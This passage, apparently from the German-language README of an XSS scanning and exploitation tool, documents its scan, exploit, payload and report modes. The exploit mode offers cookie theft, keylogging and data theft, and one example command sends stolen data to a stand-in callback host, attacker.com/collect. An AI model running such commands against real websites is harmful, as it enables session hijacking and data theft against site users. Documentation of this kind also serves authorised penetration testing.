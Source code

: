 Beispiel:

```bash
python main.py --mode scan --url https://example.com --depth 3 --threads 10 --timeout 60 --user-agent "Mozilla/5.0" --cookies "session=123" --headers "X-Custom: Value" --proxy "http://127.0.0.1:8080" --exclude "logout|admin" --include "search|product" --output scan_results.json
```

### Exploit-Modus

Der Exploit-Modus wird verwendet, um erkannte XSS-Schwachstellen auszunutzen. Er unterstützt verschiedene Optionen:

- `--url`: Die URL mit der Schwachstelle
- `--param`: Der anfällige Parameter
- `--exploit-type`: Der Typ des Exploits (data_theft, cookie_theft, keylogger, dom_manipulation)
- `--payload`: Der zu verwendende Payload (optional)
- `--callback-url`: Die Callback-URL für die Datenexfiltration
- `--custom-js`: Benutzerdefinierter JavaScript-Code
- `--output`: Die Ausgabedatei

Beispiel:

```bash
python main.py --mode exploit --url https://example.com/search --param q --exploit-type data_theft --callback-url https://attacker.com/collect --custom-js "alert(document.domain)" --output exploit_results.json
```

### Payload-Modus

Der Payload-Modus wird verwendet, um XSS-Payloads zu generieren. Er unterstützt verschiedene Optionen:

- `--payload-context`: Der Kontext des Payloads (html, javascript, url, dom, event_handlers)
- `--exploit-type`: Der Typ des Exploits (data_theft, cookie_theft, keylogger, dom_manipulation)
- `--use-ml`: Verwendung von ML zur Optimierung der Payloads
- `--num-payloads`: Die Anzahl der zu generierenden Payloads (Standard: 10)
- `--output`: Die Ausgabedatei

Beispiel:

```bash
python main.py --mode payload --payload-context javascript --exploit-type data_theft --use-ml --num-payloads 20 --output payloads.json
```

### Report-Modus

Der Report-Modus wird verwendet, um Berichte über erkannte Schwachstellen zu erstellen. Er unterstützt verschiedene Optionen:

- `--report-file`: Die Eingabedatei mit den Schwachstellen
- `--report-format`: Das Format des Berichts (html, json, txt)
- `--output`: Die Ausgabedatei
- `--template`: Die zu verwendende Berichtsvorlage
- `--include-screenshots`: Einbindung von Screenshots in den Bericht
- `--include-payloads`: Einbindung von Payloads in den Bericht
- `--include-requests`: Einbindung von Requests in den Bericht
- `--include-responses`: Einbindung von Responses in den Bericht
